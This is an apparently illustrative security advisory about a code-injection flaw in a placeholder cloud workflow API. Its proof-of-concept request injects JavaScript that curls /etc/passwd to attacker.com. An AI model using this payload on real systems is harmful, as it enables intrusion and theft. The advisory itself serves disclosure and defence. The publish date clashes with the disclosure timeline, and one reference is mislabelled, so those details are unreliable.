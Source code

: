 ```yaml
---
title: "Remote Code Execution in Example Cloud Service"
description: "A critical vulnerability in the Example Cloud API that allows attackers to execute arbitrary code through specially crafted requests."
publishDate: 2023-10-15
cveId: "CVE-2023-12345"
vendor: "Example Corp"
affectedProduct: "Example Cloud Service v4.2-5.1"
severity: "Critical"
patchStatus: "Patched"
patchDate: 2023-11-02
discoveryDate: 2023-09-18
---
```


# Remote Code Execution in Example Cloud Service

## Summary

A critical vulnerability was discovered in Example Cloud Service's API endpoint that processes user input for custom workflows. The vulnerability allows remote attackers to execute arbitrary code by sending specially crafted JSON payloads to the `/api/v2/workflows/execute` endpoint.

## Vulnerability Details

The vulnerability exists due to improper validation of user-supplied JSON data in the workflow execution engine. When processing a workflow configuration, the application passes certain JSON fields directly to an internal eval()-like function without proper sanitization.

Affected versions (4.2-5.1) of the Example Cloud Service fail to properly validate the `customScript` parameter in workflow definitions, allowing attackers to break out of the intended execution context.

## Proof of Concept

The following HTTP request demonstrates the vulnerability:

```http
POST /api/v2/workflows/execute HTTP/1.1
Host: example-cloud.com
Content-Type: application/json
Authorization: Bearer [VALID_TOKEN]

{
  "workflowName": "data-processor",
  "parameters": {
    "customScript": "');process.mainModule.require('child_process').execSync('curl https://attacker.com/exfil/$(cat /etc/passwd)');//"
  }
}
```

This request injects malicious JavaScript code that will be executed on the server, exfiltrating the contents of the `/etc/passwd` file to a remote server controlled by the attacker.

## Impact

Successful exploitation allows attackers to:

1. Execute arbitrary code on the affected server
2. Access sensitive data in the application context
3. Potentially pivot to other systems in the internal network
4. Establish persistence through various techniques

The vulnerability has received a CVSS 3.1 Base Score of 9.8 (Critical).

## Remediation

Example Corp has addressed this vulnerability in version 5.2 of Example Cloud Service by:

1. Implementing strict input validation for all workflow parameters
2. Replacing the eval-based execution engine with a sandboxed execution environment
3. Adding additional security controls to prevent command injection

Users are strongly advised to upgrade to version 5.2 or later as soon as possible.

## Timeline

- **2023-09-18**: Vulnerability discovered during security research
- **2023-09-20**: Initial report sent to Example Corp security team
- **2023-10-01**: Vulnerability confirmed by vendor
- **2023-10-28**: Patch developed and tested
- **2023-11-02**: Patch released in version 5.2
- **2023-11-15**: Public disclosure

## References

1. [Example Corp Security Advisory](https://security.example.com/advisories/2023-11-02)
2. [CVE-2023-12345 in National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-12345)
3. [MITRE ATT&CK - Server-Side Request Forgery](https://attack.mitre.org/techniques/T1505/)

## Acknowledgements

This vulnerability was discovered and reported by 0daysec security research team.